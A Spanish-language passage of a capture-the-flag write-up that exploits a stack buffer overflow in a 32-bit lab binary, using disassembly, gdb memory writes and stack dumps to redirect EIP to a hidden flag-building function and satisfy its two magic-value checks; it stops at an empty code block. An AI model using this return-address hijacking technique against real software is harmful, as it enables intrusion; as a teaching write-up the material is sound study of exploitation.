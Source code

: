 Recordar que aún nos quedan por ejecutar estas dos instrucciones de gets antes de ejecutar el return:
```
804871f:	31 c0			xor	eax,eax
8048721:	83 c4 1c		add	esp,0x1c
8048724:	c3			ret
```
Ya sabemos como controlar el EIP, pero ¿hacia donde lo apuntamos?
En el código de la sección .text aparece algo interesante:
```
8048690:	83 ec 1c             	sub    esp,0x1c
8048693:	81 7c 24 20 41 0c 0b 	cmp    DWORD PTR [esp+0x20],0x1b0b0c41   <--- Comparación sospechosa
804869a:	1b 
804869b:	75 2d                	jne    80486ca <fgetc@plt+0x26a>         <--- Me echa si no coincide con 0x1b0b0c41
804869d:	81 7c 24 24 4e 37 13 	cmp    DWORD PTR [esp+0x24],0xae13374e   <--- Otra comparación sospechosa ¿dónde quiere ir?
80486a4:	ae 
80486a5:	75 23                	jne    80486ca <fgetc@plt+0x26a>         <--- Me echa al mismo sitio si no coincide con 0xae13374e
80486a7:	c7 44 24 16 6d 66 6c 	mov    DWORD PTR [esp+0x16],0x616c666d	 <--- ¿Mete en la pila el nombre del fichero? 0x616c666d='alfm'
80486ae:	61 
80486af:	66 c7 44 24 1a 67 00 	mov    WORD PTR [esp+0x1a],0x67          <--- ¿Y luego una 'g'? ¿'mflag' nombre del fichero? ¿Extensión?
80486b6:	8d 44 24 16          	lea    eax,[esp+0x16]                    <--- Carga la posición de memoria donde está 'mflag'
80486ba:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax           <--- Nombre del fichero como arg2 de strcat
80486be:	c7 04 24 39 a0 04 08 	mov    DWORD PTR [esp],0x804a039         <--- Puntero como arg1 donde guardar resultado
80486c5:	e8 46 fd ff ff       	call   8048410 <strcat@plt>              <--- Copia el nombre de fichero en memoria
80486ca:	83 c4 1c             	add    esp,0x1c
80486cd:	c3                   	ret    
```
Vamos a apuntar el EIP a 0x8048690 y además añadimos los dos valores para superar la doble comparación (0x1b0b0c41 y 0xae13374e). 
Podemos tener la tentación de saltar directamente a 0x80486a7 pero entonces no se ejecutaría el 'sub esp,0x1c' que es básico para preparar la llamada a strcat. 
```
set {int}0xbffff36c = 0x08048690
```
Una vez ejecutada la instrucción 0x8048690 la pila quedaría así:
```
>>> x/32xw $esp
0xbffff354:	0x0804824c	0x41414141	0x41414141	0x41414141
0xbffff364:	0x41414141	0x41414141	0x08048690	0x00000001
0xbffff374:	0xbffff404	0xbffff40c	0x00000000	0x00000000
```
Para asegurarnos de que cumpla las dos comparaciones habrá que poner esos valores en su lugar correspondiente en la pila([esp+0x20]=0xbffff374 y [esp+0x24]=0xbffff378):
```
set {int}0xbffff374 = 0x1b0b0c41
set {int}0xbffff378 = 0xae13374e
```
Ya tenemos pila con los valores deseados para que llegue hasta la función strcat:
```
>>> x/32xw $esp
0xbffff354:	0x0804824c	0x41414141	0x41414141	0x41414141
0xbffff364:	0x41414141	0x41414141	0x08048690	0x00000001
0xbffff374:	0x1b0b0c41	0xae13374e	0x00000000	0x00000000
```
Estado de la pila antes de llamar a strcat:
```
```